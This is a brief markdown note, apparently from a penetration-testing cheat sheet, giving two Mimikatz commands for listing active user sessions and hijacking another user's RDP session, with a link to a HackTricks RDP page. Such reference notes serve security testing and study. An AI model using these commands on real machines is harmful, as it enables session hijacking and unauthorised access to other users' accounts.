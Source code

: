 # Mimikatz

- List active user sessions

`mimikatz # ts::sessions`

- Steal user session to authenticate the machine remotely

`mimikatz # ts::remote /id:<id_number>`

---
## References

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)